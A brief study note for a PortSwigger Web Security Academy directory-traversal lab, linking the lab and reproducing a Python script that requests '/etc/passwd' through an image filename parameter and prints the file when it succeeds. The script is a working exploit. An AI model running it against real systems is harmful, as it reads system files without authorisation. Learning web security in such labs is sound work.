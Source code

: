 #directorytraversal [[Directory Traversal]]
[Lab](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)
[Python Script](https://github.com/rkhal101/Web-Security-Academy-Series/blob/main/directory-traversal/lab-02/directory-traversal-lab-02.py)

*This is the python code to Automate* 
```python
import sys
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def directory_traversal_exploit(url):
    image_url = url + '/image?filename=/etc/passwd'
    r = requests.get(image_url, verify=False, proxies=proxies)
    if 'root:x' in r.text:
        print('(+) Exploit successful!')
        print('(+) The following is the content of the /etc/passwd file:')
        print(r.text)
    else:
        print('(-) Exploit failed.')
        sys.exit(-1)

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.come" % sys.argv[0])
        sys.exit(-1)
    
    url = sys.argv[1]
    print("(+) Exploiting directory traversal vulnerability...")
    directory_traversal_exploit(url)

if __name__ == "__main__":
    main()
```